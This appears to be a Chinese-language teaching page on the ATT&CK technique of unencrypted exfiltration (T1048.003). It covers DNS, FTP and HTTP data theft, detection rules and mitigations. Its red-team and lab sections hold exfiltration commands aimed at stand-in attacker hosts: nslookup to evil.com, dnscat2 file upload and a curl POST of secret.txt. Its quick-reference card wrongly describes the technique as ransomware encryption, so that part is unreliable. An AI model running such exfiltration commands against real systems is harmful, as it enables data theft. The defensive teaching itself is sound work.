

# 未加密渗出 (T1048.003)

## 一句话通俗理解

> **攻击者用FTP、HTTP、DNS这些"明信片"一样的协议把偷到的数据寄出去——谁都能看到内容，但因为太常见了，反而没人注意。**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 未加密渗出（T1048.003）是攻击者用来加密数据勒索赎金的技术 |
| 为什么危险？ | 攻击者可以通过加密数据勒索赎金，可能导致业务完全中断 |
| 谁需要关心？ | 安全运维团队、系统管理员、业务负责人 |
| 你的第一步防御 | 定期备份数据并测试恢复流程，确保备份与生产环境隔离 |
| 如果只做一件事 | 监控异常的加密操作行为，设置关键文件完整性告警 |

## 难度等级

⭐⭐ 中级 - 需要了解常见网络协议

## 这是什么？

想象一下：你偷了公司的机密文件，现在要把它运出去。你可以选择：

- 📦 **加密快递**（HTTPS）：安全，但保安会仔细检查每个包裹
- 📮 **明信片**（FTP/HTTP/DNS）：内容谁都能看到，但因为太普通了，保安根本不看

**未加密渗出**就是攻击者选择"明信片"的方式——用最普通、最不起眼的网络协议，把偷到的数据**明文**传出去。

### 为什么攻击者敢用明文？

你可能会问：明文传输不怕被发现吗？

确实，数据在传输过程中可能被截获。但攻击者赌的是：

1. **太常见了**：FTP、HTTP、DNS这些协议每天都在用，安全设备早就习惯了
2. **不检查内容**：很多企业的安全设备只检查加密通道（HTTPS），对明文流量视而不见
3. **速度快**：不用加解密，传输效率高
4. **简单可靠**：不需要复杂的C2基础设施，几行命令就能搞定

### 常见的"明信片"协议

| 协议 | 通俗理解 | 攻击者怎么用 |
|------|---------|-------------|
| **FTP** | 文件传输的"老古董"，像寄包裹 | 把偷到的文件直接上传到外部FTP服务器 |
| **HTTP** | 网页浏览的"明信片" | 通过POST请求把数据发送到攻击者的Web服务器 |
| **DNS** | 网络世界的"电话簿" | 把数据编码成域名查询（如 `data.evil.com`），悄悄传出去 |
| **SMTP** | 发邮件的"邮递员" | 把数据作为邮件附件发送到外部邮箱 |
| **TFTP** | 简单文件传输的"小弟" | 比FTP更简单，连认证都不需要 |

## 真实攻击流程



**步骤详解：**

1. **入侵定位敏感数据** - 攻击者通过钓鱼邮件获得初始访问后，在内网横向移动定位客户数据库、财务报表等高价值文件
2. **Base64编码** - 将敏感文件内容转换为base64编码，确保数据可以在DNS查询中安全传输
3. **分段嵌入DNS查询** - 将编码后的数据分割成多个片段，每个片段作为一个子域名（如 `aGVsbG8.evil.com`）
4. **DNS隧道传输** - 每次DNS查询就像在问"这个子域名的IP是多少？"，DNS服务器不得不将查询转发到攻击者控制的权威DNS服务器
5. **外部解码还原** - 攻击者在外部收集所有DNS查询日志，提取子域名中的编码数据，解码还原出原始文件

### 为什么DNS特别危险？

DNS是互联网的"电话簿"，**几乎不可能被完全封锁**。企业必须允许DNS查询出去，否则员工连网站都打不开。攻击者正是利用这一点，把DNS变成数据外泄的"隧道"。

**技术细节：**
```bash
# 攻击者把数据编码成DNS查询
# 原始数据: "password123"
# 编码后: cGFzc3dvcmQxMjMuZXZpbC5jb20
# DNS查询: nslookup cGFzc3dvcmQxMjMuZXZpbC5jb20
```

## 真实案例

### 案例1：APT29（Cozy Bear）用DNS渗出窃取数据

- **时间**：2020-2021年
- **目标**：美国政府机构、科技公司
- **攻击组织**：APT29（俄罗斯情报机构背景）
- **手法**：在SolarWinds供应链攻击中，APT29使用DNS查询来外泄窃取的数据。他们把数据编码成子域名，通过DNS查询发送到攻击者控制的DNS服务器。因为DNS流量在企业中太常见了，安全设备完全没有报警。
- **参考链接**：[CISA SolarWinds Advisory](https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-057a)

### 案例2：OilRig（APT34）用DNS隧道渗透中东政府

- **时间**：2019-2020年
- **目标**：中东地区政府和能源企业
- **攻击组织**：OilRig（伊朗背景APT组织）
- **手法**：OilRig开发了名为"DNSExfiltrator"的工具，专门通过DNS查询来窃取数据。他们先通过钓鱼邮件入侵目标，然后用DNS隧道把窃取的机密文件慢慢传出去。
- **参考链接**：[Unit42 OilRig分析](https://unit42.paloaltonetworks.com/)

### 案例3：APT41用FTP外泄游戏源代码

- **时间**：2019-2020年
- **目标**：全球游戏公司
- **攻击组织**：APT41（中国背景）
- **手法**：APT41入侵游戏公司后，直接用FTP把游戏源代码和开发文档上传到他们控制的服务器。因为FTP是合法的文件传输协议，很多企业的防火墙对FTP流量不做深度检查。
- **参考链接**：[FireEye APT41报告](https://www.fireeye.com/)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试和教育目的。

### 实战技巧

**1. 选择合适的协议**
- 内网有DNS服务器？→ 用DNS隧道，最隐蔽
- 目标允许FTP出站？→ 用FTP，最简单
- 只有HTTP出站？→ 用HTTP POST，最通用

**2. 数据编码**
```bash
# 把文件编码成base64，然后分段发送
base64 secret.txt > encoded.txt
split -b 50 encoded.txt chunk_
# 每个chunk_文件作为一次DNS查询发送
```

**3. 速度与隐蔽的平衡**
- 太快 → 流量异常，容易被发现
- 太慢 → 效率低，可能被中断
- 建议：每秒1-2次DNS查询，看起来像正常浏览

### 常用工具

| 工具 | 用途 | 特点 |
|------|------|------|
| **dnscat2** | DNS隧道工具 | 最流行的DNS隧道工具，支持加密 |
| **iodine** | DNS隧道工具 | 速度快，支持多种编码方式 |
| **DNSExfiltrator** | DNS渗出工具 | 专门用于数据外泄，隐蔽性强 |
| **nc (netcat)** | 通用网络工具 | 简单粗暴，直接用TCP/UDP传文件 |
| **curl/wget** | HTTP工具 | 用HTTP POST发送数据 |

## 蓝队视角

### 怎么发现这种攻击？

**关键思路**：明文传输 = 内容可见 = 可以检查

**1. DNS流量异常检测**
```
正常DNS查询：www.google.com（20个字符）
异常DNS查询：aGVsbG8gd29ybGQ.evil.com（30+个字符，包含base64编码）
```

**2. 具体检测方法**
```bash
# 检测DNS隧道：查询长度异常
# 正常域名一般不超过50个字符
# DNS隧道的域名通常很长（包含编码数据）

# 使用Zeek/Bro检测
# 在dns.log中查找长域名查询
awk 'length($query) > 50' dns.log
```

**3. FTP/HTTP流量检测**
```bash
# 检测异常的FTP上传
# 正常员工很少用FTP，如果看到FTP上传流量，重点关注

# 检测HTTP POST到异常IP
# 如果员工的电脑突然向一个从未访问过的IP发送大量POST数据，很可能是数据外泄
```

### 检测规则示例

**用人话说：** 攻击者用FTP、HTTP、DNS等明文协议直接传输窃取的数据，不加任何加密——数据在网络上像明信片一样谁都能看到。但正因为这些协议太普通了，每天上亿次的使用让安全设备产生了盲区，攻击者反而利用这种"灯下黑"效果。与加密渗出相比，明文渗出速度快、工具简单（一行curl命令就能搞定），但风险是容易被网络抓包发现。如果发现内网机器通过FTP上传大量文件到外部服务器，或者HTTP POST请求中包含可识别的敏感数据内容（如身份证号、密码、SQL语句），需要立即排查是否正在发生明文数据外泄。

**Sigma规则示例：**
```yaml
title: 检测DNS隧道 - 长域名查询
status: experimental
description: 检测可能的DNS隧道数据外泄
logsource:
    category: dns
detection:
    selection:
        query|re: '^[a-zA-Z0-9]{30,}\.'  # 超过30个字符的子域名
    condition: selection
level: medium
tags:
    - attack.T1048.003
```

## 检测建议

### 检测思路

检测未加密渗出的关键是发现异常的明文数据传输行为。以下是三个层面的检测方法：

### 网络层检测

**方法**：监控网络流量中的异常明文数据传输

```bash
# 检测异常的DNS查询（长度超过50字符的域名）
awk 'length($7) > 50' /var/log/named.log

# 检测异常的FTP上传流量
tcpdump -i eth0 port 21 -X | grep "STOR"

# 检测HTTP POST数据量异常
ngrep -q -i "POST" -d eth0 | awk '{if(length($0)>1000) print}'
```

### 主机层检测

**Windows事件ID**：
- 事件ID 4688：进程创建（监控curl、wget、ftp等工具的执行）
- 事件ID 4104：PowerShell执行（监控可疑的Web请求脚本）

**Linux日志**：
- /var/log/auth.log：认证日志（异常的外部连接）
- /var/log/syslog：系统日志（可疑的DNS查询工具执行）

### 应用层检测

**Sigma规则**：
```yaml
title: 检测DNS隧道 - 长域名查询
status: experimental
description: 检测可能的DNS隧道数据外泄
logsource:
    category: dns
detection:
    selection:
        query|re: '^[a-zA-Z0-9]{30,}\.'
    condition: selection
level: medium
tags:
    - attack.T1048.003
```

## 缓解措施

### 最有效的防御

| 措施 | 效果 | 实施难度 |
|------|------|---------|
| **限制DNS出站** | 只允许内部DNS服务器直接查询外部 | ⭐⭐ 中 |
| **部署DNS安全网关** | 检查所有DNS查询的内容和频率 | ⭐⭐ 中 |
| **禁止FTP出站** | 在防火墙上直接封堵FTP协议 | ⭐ 简单 |
| **HTTP代理检查** | 通过代理服务器检查所有HTTP流量 | ⭐⭐ 中 |
| **网络流量基线** | 建立正常流量基线，检测异常 | ⭐⭐⭐ 困难 |

### 具体配置建议

```bash
# 防火墙规则示例：只允许内部DNS服务器访问外部DNS
iptables -A OUTPUT -p udp --dport 53 -s 10.0.0.53 -j ACCEPT  # 只允许DNS服务器
iptables -A OUTPUT -p udp --dport 53 -j DROP  # 其他机器禁止直接DNS查询

# Windows DNS策略：限制递归查询
# 只允许内部DNS服务器进行递归查询，其他机器只能查询内部DNS
```

## 动手实验

> ⚠️ **所有实验必须在隔离的实验室环境中进行**

### 实验1：用DNS隧道传输文件（初级）

**目标**：理解DNS隧道的工作原理

**步骤**：
```bash
# 1. 在攻击机上启动dnscat2服务器
dnscat2-server secret.evil.com

# 2. 在目标机上启动dnscat2客户端
dnscat2-client secret.evil.com

# 3. 在dnscat2控制台中上传文件
# 命令: upload secret.txt

# 4. 观察DNS查询日志，看到大量长域名查询
```

**学习要点**：
- DNS查询可以携带数据
- 长域名查询是DNS隧道的典型特征
- 理解为什么DNS隧道难以完全封堵

### 实验2：用HTTP POST外泄数据（中级）

**目标**：理解HTTP渗出的实现方式

**步骤**：
```bash
# 1. 在攻击机上启动HTTP服务器接收数据
python3 -m http.server 8080

# 2. 在目标机上用curl发送数据
curl -X POST -d @secret.txt http://攻击机IP:8080/exfil

# 3. 观察HTTP流量，看到明文传输的数据
```

## 术语解释

| 术语 | 通俗解释 |
|------|---------|
| **渗出（Exfiltration）** | 攻击者把偷到的数据从目标网络传输出去的过程 |
| **明文（Plaintext）** | 没有加密的数据，就像明信片，谁都能看到内容 |
| **DNS隧道** | 利用DNS查询来传输非DNS数据的技术，像在电话簿查询里藏暗号 |
| **C2通道** | 攻击者与被入侵系统之间的通信渠道，像"遥控器" |
| **base64编码** | 把二进制数据转换成文本的方式，像把照片翻译成文字描述 |

## 被引用情况

以下父技术文档引用了本子技术：

- [T1048 - 通过替代协议渗漏](../T1048-Exfiltration-Over-Alternative-Protocol.md)

## 参考资料

- [MITRE ATT&CK - T1048.003](https://attack.mitre.org/techniques/T1048/003/)
- [CISA SolarWinds Advisory](https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-057a)
- [dnscat2 - DNS隧道工具](https://github.com/iagox86/dnscat2)
- [DNS隧道检测方法](https://www.sans.org/white-papers/dns-tunneling/)
